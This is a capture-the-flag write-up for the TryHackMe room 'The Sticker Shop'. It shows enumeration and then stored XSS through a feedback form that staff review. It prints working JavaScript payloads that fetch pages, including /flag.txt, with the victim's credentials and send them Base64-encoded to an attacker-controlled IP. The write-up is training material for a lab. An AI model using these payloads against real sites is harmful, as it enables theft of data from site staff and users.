 ```yaml
---
title: "The Sticker Shop"
author: c3l1kd
categories: [TryHackMe]
tags: [xss,exploit,scanning]
render_with_liquid: false
img_path: /images/tryhackme_the_sticker_shop/
image:
  path: room_image.png
---
```

**The Sticker Shop** Your local sticker shop has finally developed its own webpage. They do not have too much experience regarding web development, so they decided to develop and host everything on the same computer that they use for browsing the internet and looking at customer feedback. Smart move!

Can you read the flag at `http://MACHINE_IP:8080/flag.txt?`

## Initial Enumeration
### Nmap Scan
We start with a Nmap scan and find only two open ports. Port `22` on which we have SSH available and port `8080` on which a Python Werkzeug server is running, a cat sticker shop

![nmap](01.webp){: width="1200" height="800" }

The index page has some stickers to offer. Besides that, we have a Feedback page.

![nmap](02.webp){: width="1200" height="800" }

On the feedback page, we can give some feedback, that is shortly after reviewed by the staff. This sounds like `XSS` might be our entry point.

![nmap](03.webp){: width="1200" height="800" }

## Exploit XSS

The challenge tasks us to retrieve the flag at `http://10.10.49.166:8080/flag.txt` and utilize client side exploitation. 

Furthermore it states that `they decided to develop and host everything on the same computer`.

> Your local sticker shop has finally developed its own webpage. They do not have too much experience regarding web development, so they decided to develop and host everything on the same computer that they use for browsing the internet and looking at customer feedback. Smart move!
> Can you read the flag at `http://10.10.49.166:8080/flag.txt?`  
{: .prompt-tip }

Currently we are not allowed to access `http://10.10.49.166:8080/flag.txt`.

![nmap](04.webp){: width="1200" height="800" }

We get back to the feedback page and prepare some XSS payloads.
![nmap](05.webp){: width="1200" height="800" }

First, we want to test for simple XSS. If we get a response back to our web server, we have confirmed XSS.

```console
<script src="http://10.14.90.235/feedback"></script>
```

![nmap](06.webp){: width="1200" height="800" }

We get a response back, so let's craft a payload to make a request as the user to the page.
![nmap](07.webp){: width="1200" height="800" }

The next thing to do is to craft a  JavaScript payload to exfiltrate the response of a fetch request to the root path `(/)` of the current origin. It sends the text content of the fetched response, encoded in Base64 `(btoa)`, to a remote server at `http://10.14.90.235/` using another fetch request. we uses no-cors mode to bypass CORS restrictions and `credentials: 'same-origin'` to include cookies or credentials for the initial request, potentially allowing it to capture sensitive data from the target application.
```console
<script>
fetch("/", {method:'GET',mode:'no-cors',credentials:'same-origin'})
  .then(response => response.text())
  .then(text => { 
    fetch('http://10.14.90.235/' + btoa(text), {mode:'no-cors'}); 
  });
</script>
```
We get a base64-encoded response back.

![nmap](08.webp){: width="1200" height="800" }

We successfully got the index page by the user reviewing the feedback.

![nmap](09.webp){: width="1200" height="800" }

Now we adapt the payload to include the `flag.txt`.
```console
<script>
fetch("/flag.txt", {method:'GET',mode:'no-cors',credentials:'same-origin'})
  .then(response => response.text())
  .then(text => { 
    fetch('http://10.14.90.235/' + btoa(text), {mode:'no-cors'}); 
  });
</script>
```
After we have submitted our payload, we get a connection back to our web server.
![nmap](10.webp){: width="1200" height="800" }
And it is the flag.

![nmap](11.webp){: width="1200" height="800" }
